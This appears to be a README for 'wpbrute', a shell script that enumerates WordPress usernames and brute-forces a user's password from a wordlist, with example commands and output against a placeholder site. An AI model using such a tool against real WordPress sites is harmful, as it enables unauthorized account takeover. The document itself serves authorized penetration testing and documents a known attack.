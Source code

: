 wpbrute
=======

Wordpress user enumeration and password bruteforce.

<b>User Enumeration:</b>

<code>$ ./wpbrute.sh --url=www.example.com</code>

<code>[+] Username or nickname enumeration</code>

<code>admin</code>

<code>testuser</code>

<b>Password Bruteforce:</b>

<code> ./wpbrute.sh --url=www.example.com --user=admin --wordlist=wordlist.txt</code>

<code>[+] Bruteforcing user [admin]</code>

<code>123456</code>

<code>test123</code>

<code>123test123</code>

<code>The password is: 123test123</code>
